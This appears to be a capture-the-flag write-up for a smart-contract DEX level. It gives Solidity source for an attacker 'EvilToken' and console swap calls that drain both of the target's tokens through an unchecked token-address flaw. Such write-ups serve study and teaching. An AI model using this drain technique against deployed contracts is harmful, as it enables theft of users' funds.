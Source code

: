 ### Analysis
Since the from and to arguments can now be any arbitrary address, we can write our own token contract with a bugged balanceOf function and pass our contract into from.

### The Exploit
deploy a token - EvilToken,with initial supply of 400, all given to msg.sender which would be the player:
~~~
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/ERC20.sol";

contract EvilToken is ERC20 {
    constructor(uint256 initialSupply) ERC20("EvilToken", "EVL") {
        _mint(msg.sender, initialSupply);
    }
}
~~~
interact with the target contract:
~~~
t1 = await contract.token1()
t2 = await contract.token2()
await contract.swap(evlToken, t1, 100)
await contract.swap(evlToken, t2, 200)
~~~